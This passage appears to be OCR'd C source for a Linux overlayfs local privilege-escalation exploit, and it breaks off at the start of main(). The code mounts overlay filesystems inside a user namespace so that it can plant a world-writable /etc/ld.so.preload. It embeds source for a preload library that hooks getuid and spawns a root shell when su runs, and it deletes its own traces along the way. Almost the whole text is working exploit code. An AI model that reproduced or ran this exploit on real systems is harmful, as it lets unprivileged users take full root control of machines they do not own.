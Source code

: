 ```
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
```